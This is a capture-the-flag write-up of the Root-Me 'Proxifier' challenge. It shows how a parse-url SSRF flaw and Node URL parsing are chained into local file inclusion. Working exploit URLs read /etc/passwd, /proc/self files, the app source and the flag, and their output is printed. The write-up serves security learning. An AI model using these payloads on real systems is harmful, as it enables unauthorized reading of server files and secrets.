








# Proxifier

  



## Starting the challenge

Going to the provided URL, I had a simple `Cannot GET /`, indicating me that I definitely have no idea what I can do. So I downloaded the sources and started analysing them.

The code is fairly simple, and consists exclusively of one route.

```js
const FLAG_PATH = "*sensored*";

// ...

app.get("/proxy", async (req, res) => {
  if (req.query.url !== undefined) {
    res.send(await getURL(req.query.url));
  } else {
    res.send("[ERROR] No URL send!")
  }
});
```

We see that we can only **GET** `/proxy` with `?url=something`, and it calls the getURL function. We also have a constant named `FLAG_PATH` that we will keep in mind for later, when we will try to find the flag.

```js
var getURL = async (url) => {
  // INIT
  var protocol = urlParse(url)["protocol"];
  var host = urlParse(url)["host"];
  var pathname = urlParse(url)["pathname"];

  // added by me for debugging purposes
  console.log(protocol, host, pathname);

  if (protocol === "https:" && host.endsWith("root-me.org")) {
    // DOUBLE CHECK
    protocol = parseUrl(url)["protocol"];
    host = new URL(pathname, `https://root-me.org/mizu`)["host"];
    pathname = new URL(pathname, `https://root-me.org/mizu`)["pathname"];

    // added by me for debugging purposes
    console.log(protocol, host, pathname);

    // REMOTE
    if (protocol === "https") {
      try {
        var res = await fetch(`${protocol}://${host}${pathname}`);
        res = await res.text();
        return res
      } catch {
        return "Error fetching data.";
      }

      // LOCAL
    } else if (protocol === "file" && host === "127.0.0.1") {
      try {
        return fs.readFileSync(pathname, "utf8");
      } catch {
        return "No such file or directory.";
      }
    }

  } else {
    return "Protocol must be https and host end with 'root-me.org'.";
  }
}
```

This code is fairly simple. It calls `urlParse` to retrieve 3 parts of the URL: the protocol, the host and the pathname. If the protocol is not `https` or the host does not end with `root-me.org`, the function fails and we receive an error message.

The second part is where it gets interesting. The protocol is double checked with `parseURL` and `host` and `pathname` both use the node API `URL`. And here is the `package.json`.

```json
{
    "dependencies": {
      "express": "^4.18.2",
      "url-parse": "^1.5.10",
      "parse-url": "^7.0.2",
      "node-fetch": "^2.6.6"
    }
}
```

## Exploiting one parser

I thought "what could possibly go wrong?" and thought that `url-parse` should be safe, and that the exploit would probably happen with the second check. Bold assessment I admit, but maybe the right one.

I searched for `parse-url` and found [this SSRF](https://security.snyk.io/vuln/SNYK-JS-PARSEURL-3023021). I short, it affects `parse-url < 8.1.0` and allows to bypass some checks by making the parser think the protocol or host is not the right one.

I decided to disable the first check locally to make my tests, and add the two `console.log` lines that you can see. The first one would tell me what `url-parse` sees, and the second one what `parse-url` and Node's `URL` see, and how they differ.

```url
http://localhost:3000/proxy?url=http://nnnn@localhost:808:/?id=xss
```



**SSH?!** Probably a parsing problem with the multiple `:` and the `@`. The example payload from the vulnerability website does work, but doesn't give me what I want. If you look at the second check, we can see that there is an LFI that may be exploited.

```js
    } else if (protocol === "file" && host === "127.0.0.1") {
      try {
        return fs.readFileSync(pathname, "utf8");
      } catch {
        return "No such file or directory.";
      }
    }
```

Since we want to exploit a `file` protocol, and I usually start it with `file:///` to access the files on my computer, I decided to tweak the payload a little bit.

```url
http://localhost:3000/proxy?url=http:///nnnn@localhost:808:/?id=xss
```



This is it! We have the file protocol. But we no longer pass the first check, it doesn't detect https and doesn't end in `root-me.org`.

## The first check, once again

Before going back to the first check, I wanted to see if I could get rid of the `nnnn@` part of the URL. It may seem nothing and shouldn't bother me, but the shorter the URI the safer it is for later exploits.

```url
http://localhost:3000/proxy?url=http:///127.0.0.1:808:/
```



It still works! We can see that the `pathname` ends at `:808`, and the link is in `http` instead of `https`, so let's add the missing `s` and `root-me.org` where they should be.

```url
http://localhost:3000/proxy?url=https:///127.0.0.1:808.root-me.org:/test
```



First check, check! ✅

## The URL boss

We've tried so hard, and got so far, but in the end, it doesn't even got us a flag. 

The last step is to abuse node's `URL` api to have the host set to `localhost`. Nothing better than the [spec](https://nodejs.org/api/url.html#new-urlinput-base) to understand what really happens. The constructor will take the first or second argument as the host. This line is particularly interesting.

```js
myURL = new URL('foo://Example.com/', 'https://example.org/');
// foo://Example.com/
```

This is because "If `input` is absolute, the `base` is ignored." and the detection of `input` being absolute behaves in a manner that I don't fully understand yet. However, I can exploit this fact.

Let's ignore the first check once again and try with the `foo://` protocol.

```url
http://localhost:3000/proxy?url=foo:///127.0.0.1:808.root-me.org:/test
```



It doesn't seem to work... because I'm definitely stupid!


## The moment of stupidity

What this challenge taught me was how to properly read, because it seems this was not something I was able to do before. As written before, there are two lines of code concerned by Node's `URL` api.

```js
    host = new URL(pathname, `https://root-me.org/mizu`)["host"];
    pathname = new URL(pathname, `https://root-me.org/mizu`)["pathname"];
```

The very important part of these lines is the first parameter given to the `URL` constructor, which is `pathname` and not the complete url. It is taken from the previous `url-parse`, and therefore is the `/test` part of my URL.

With that information in mind, we can find the proper URL to bypass all verification and achieve a LFI.

```url
http://localhost:3000/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1:/index.html
```

You may wonder what these `%0A%0D` are? They are artefacts of what I was trying to do before discovering I was stupid (but are not relevant in this writeup). We could probably not use them, but I think they look nice here, don't you think



It works! I get a "no such file or directory", but this doesn't really bother me. I know my LFI works properly and can now exploit it to the real website.

## Gaining knowledge

The last part (and the one I prefer): finding a way to extract the flag with this simple LFI.

```url
http://ctf10k.root-me.org:6005/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1/etc/passwd
```

With this payload, we retrieve `/etc/passwd`. We learn that there is an apache server running, and many other users are created but they do not interest us. While I could skip this step, it gives me proof that my LFI is working.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
```

One folder that I really like to check when I don't know where to go is the `/proc/self` folder, that gives us information about the current process (here, the NodeJS process). With the `cwd` directory, I can check if I can access the `index.html` page I've seen in the sources before and that looks like it won't be of any use.

```url
http://ctf10k.root-me.org:6005/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1/proc/self/cwd/index.html
```



The `/proc/self/cwd` directory effectively redirects us to the nodejs app folder. Let's load our `app.js` to see the value of `FLAG_PATH`.

```url
http://ctf10k.root-me.org:6005/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1/proc/self/cwd/app.js
```

File not found. Wait... how can this file not be found? I'm sure I've made no typo, there is a problem. Maybe has the file been deleted and the js process still runs? Do I have to find a `mlocate.db` file that would indicate me where the file is? There are so many questions in my mind, but I still have to check `/proc/self/cmdline` to be sure, so I can see which command ran our nodejs server.

```bash
node/var/app/you_wont_guess_it.js
```

Heh, indeed I won't guess it, but now I know where you are! Too lazy to modify my payload, I will still use `/proc/self/cwd`, because the given path does not seem to be absolute and could be anywhere.

```url
http://ctf10k.root-me.org:6005/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1/proc/self/cwd/you_wont_guess_it.js
```

This command works properly, and we can see what we are looking for.

```js
const FLAG_PATH = "a49b4e26e4b6b4638f225fb342a645ce/flag.txt";
```

The last payload is easy to create.

```url
ctf10k.root-me.org:6005/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1/proc/self/cwd/a49b4e26e4b6b4638f225fb342a645ce/flag.txt
```

And voilà! 

**Flag: `RM{T4k3_C4R3_0f_Y0uR_URL_P4rs3R}`**
